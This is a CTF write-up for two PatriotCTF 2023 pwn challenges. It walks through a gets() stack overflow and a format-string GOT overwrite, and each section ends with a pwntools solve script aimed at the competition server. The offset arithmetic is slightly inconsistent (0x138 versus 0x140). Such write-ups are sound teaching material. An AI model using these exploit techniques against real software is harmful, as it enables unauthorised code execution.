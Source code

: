 ```yaml
---

title: "PatriotCTF 2023 Writeup"
permalink: "/pctf-2023-writeups"
---
```


Welcome to my first Writeup!

# Table of Contents
1. [Guessing Game](#guessing-game-100-pts)
2. [Printshop](#printshop-384-pts)

## PWN
---
<br/>
<!-- <br/> -->


# Guessing Game [100 PTS]
Lets decompile using Ghidra and rename some variables:

![decompilation of binary](/assets/pctf2023/pwn/guessinggame/decompiled.png)

We can see that there is a vulnerable call to `gets` in line 13. We can also see in line 21 that the binary checks if `target` is not zero. If it isn't zero, we get the flag. 
<br/>
<br/>
`gets` will not check how long the user's input is and will store whatever input is given to it, on the [stack](https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64/).  Since the `target` variable is on the stack as well, we can overwrite the variable and get the flag!
<br/>
<br/>
To find the number of characters we need to overwrite the `target` variable, we can look at the stack layout provided by Ghidra. To show this layout just click on any of the variables' declarations.

![stack layout of binary](/assets/pctf2023/pwn/guessinggame/stack_layout.png)
<br/>
<br/>

From this we can see that our input is stored at `$rbp-0x138` and `target` is stored at `$rbp-0xc`.
<br/>
<br/>
Subtracting 0xc from 0x140 gives us 308, which is how many bytes we need to write in order to overwrite the `target` variable. 
<br/>
<br/>

> ``NOTE:`` The `outputFlag()` function tries to open a file called flag.txt, so when testing locally, make sure to put a fake flag in the same directory as the binary.

Here is the final solve script:
<br/>
```python
from pwn import *
context.binary = binary = ELF('./guessinggame')

#p = process()
p = remote('chal.pctf.competitivecyber.club', 9999)
payload = b'a'*308

p.sendline(payload)
p.interactive()
```

<br/>
<br/>

# Printshop [384 PTS]
Again, lets decompile this binary in Ghidra. 

![Printshop binary decompiled](/assets/pctf2023/pwn/printshop/decompiled.png)

<br/>

We can see that there is a format string vulnerability on line 14, since we are taking the user's input and printing it without any format specifiers. This means that the user can supply their own format specifiers like `%n` which can be used to write to memory addresses. 
<br/>

Also notice that instead of returning, the program calls `exit`. I also saw that there is a win function which is what our target is. 
<br/>
![win function](/assets/pctf2023/pwn/printshop/winfunc.png)
<br/>

We can do a GOT overwrite so that `exit` points to `win`. This means that when the program calls `exit`, it will actually call `win`. For more information on format string vulnerabilities, I recommend going through [pwn.college's format string exploits module](https://pwn.college/cse494-s2023/format-string-exploits). 

Before we do the GOT overwrite, we need to make sure that the GOT has write permissions. To check this, we can use `checksec`, a command line utility to check security protections on a binary. Running `checksec printshop` outputs:
<br/>

![checksec output](/assets/pctf2023/pwn/printshop/checksec.png)

Since there is `Partial RELRO`, we can overwrite the GOT.

<br/>
To perform this exploit, we can use pwntools' `fmtstr` class. 
<br/>

Here is the final solve script:
<br/>
```python
from pwn import *
context.binary = binary = ELF('./printshop')

def exec_func(payload): # this function is used so that pwntools can find the offset of our input buffer and other things like padding
        with remote('chal.pctf.competitivecyber.club', 7997) as p:
                p.sendline(payload)
                p.recvuntil(b'buisness!')
                p.recvline()
                p.recvline()
                out = p.recvline()
                log.info(out)
                return out

#p = process()
p = remote('chal.pctf.competitivecyber.club', 7997)
fmtstr = FmtStr(exec_func)
payload = b'a'*fmtstr.padlen + fmtstr_payload(fmtstr.offset, {binary.got.exit: binary.symbols.win})

p.sendline(payload)
p.interactive()

```


